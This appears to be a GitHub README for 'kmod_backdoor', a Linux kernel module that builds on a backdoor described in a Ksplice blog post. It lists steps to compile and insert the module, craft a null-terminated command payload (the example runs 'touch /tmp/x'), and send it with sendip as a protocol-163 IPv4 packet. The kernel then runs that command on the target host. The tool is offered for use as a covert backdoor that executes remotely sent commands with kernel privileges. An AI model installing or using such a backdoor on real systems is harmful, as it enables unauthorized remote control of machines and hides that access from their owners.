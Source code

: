 kmod_backdoor
=============

An up to date module for the backdoor described in the ksplice blog. https://blogs.oracle.com/ksplice/entry/hosting_backdoors_in_hardware
This code includes some fixes to allow us to defer calls to call_usermodhelper.

Steps
------------------

* Compile the code by running make
```sh
$ make
make -C /lib/modules/3.2.0-4-amd64/build SUBDIRS=/home/lmwangi/backdoor modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-4-amd64'
  Building modules, stage 2.
  MODPOST 3 modules
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-4-amd64'

```

* Insmod the relevant module.

* Create a payload that sendip will use. The cmd string must be null terminated.
```sh

$ hexdump -C payload
00000000  74 6f 75 63 68 20 2f 74  6d 70 2f 78 00           |touch /tmp/x.|
0000000d
```
* Exploit
```sh
$ sudo sendip -p ipv4 -is 0 -ip 163 -f payload 192.168.127.108
```
